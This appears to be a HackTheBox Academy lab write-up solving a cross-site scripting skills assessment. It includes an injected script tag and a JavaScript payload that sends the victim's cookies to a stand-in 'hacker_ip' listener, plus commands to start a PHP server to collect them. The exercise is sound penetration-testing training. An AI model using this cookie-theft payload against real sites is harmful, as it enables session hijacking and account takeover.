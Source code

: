 We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new `Security Blog`.
 In our Web Application Penetration Testing plan, we reached the part 
where you must test the web application against Cross-Site Scripting 
vulnerabilities (XSS).

Start the server below, make sure you are connected to the VPN, and access the `/assessment` directory on the server using the browser:

**Questions:**

1. Identify a user-input field that is vulnerable to an XSS vulnerability
2. Find a working XSS payload that executes JavaScript code on the target's browser
3. Using the `Session Hijacking` techniques, try to steal the victim's cookies, which should contain the flag.
**Answers:**

First, let's create a server on our machine and prepare a payload for testing input fields on the target site.
>mkdir /tmp/tmpserver

>cd /tmp/tmpserver

>nano myscript.js > new Image().src='http://hacker_ip:3333/index.php?c='+document.cookie;

>nano index.php

![tmpserver](https://)

![php-code](/workspace/ethical-hacking-study/HackTheBox/HTB-Academy-Cross-Site-Scripting-skills-assessment/images/HTB-CROSS_SITE-SCRIPTING-XSS-.png)
Let's start your server

>sudo php -S 0.0.0.0:3333

Now let's test the input fields on the target site:

`"><script src=http://hacker_ip:3333/myscript.js></script>`

![start server](/workspace/ethical-hacking-study/HackTheBox/HTB-Academy-Cross-Site-Scripting-skills-assessment/images/php-server.png)
![inputs](/workspace/ethical-hacking-study/HackTheBox/HTB-Academy-Cross-Site-Scripting-skills-assessment/images/inputs.png)
Great, it works!
Let's check our cookie file.
![cat cookies](/workspace/ethical-hacking-study/HackTheBox/HTB-Academy-Cross-Site-Scripting-skills-assessment/images/cookie.png)
Happy Hacking!
[My HTB Academy unique referral link >](https://referral.hackthebox.com/mzyGKZb)


